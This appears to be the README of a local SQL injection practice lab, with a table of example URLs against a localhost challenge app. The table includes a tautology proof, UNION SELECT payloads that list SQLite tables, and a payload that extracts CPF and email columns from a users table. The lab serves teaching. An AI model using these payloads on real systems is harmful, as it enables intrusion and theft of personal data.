 # SQL Injection 1 💉🔓

# How to run

```bash
./start-docker.sh
```

## Examples

| [/challenges/111.111.111-11](http://localhost:5000/challenges/111.111.111-11)                                                                                                                                                                                                                                                 | Expected usage                                   |
| [/challenges/' or '1' = '1](http://localhost:5000/challenges/'%20or%20'1'%20=%20'1)                                                                                                                                                                                                                                           | Vulnerability proof                              |
| [/challenges/' AND '1' = '2' UNION SELECT name FROM sqlite_master WHERE type ='table' AND name NOT LIKE 'sqlite_%](http://localhost:5000/challenges/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20name%20FROM%20sqlite_master%20WHERE%20type%20='table'%20AND%20name%20NOT%20LIKE%20'sqlite_%)                                   | Breaks server                                    |
| [/challenges/' AND '1' = '2' UNION SELECT 'table_name', name FROM sqlite_master WHERE type = 'table' AND name NOT LIKE 'sqlite_%](http://localhost:5000/challenges/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20'table_name',%20name%20FROM%20sqlite_master%20WHERE%20type%20=%20'table'%20AND%20name%20NOT%20LIKE%20'sqlite_%) | Queries all tables and fixes broken server       |
| [/challenges/' AND '1' = '2' UNION SELECT cpf, email FROM users; --](http://localhost:5000/challenges/'%20AND%20'1'%20=%20'2'%20UNION%20SELECT%20cpf,%20email%20FROM%20users;%20--)                                                                                                                                           | Use union select to query data from other tables |
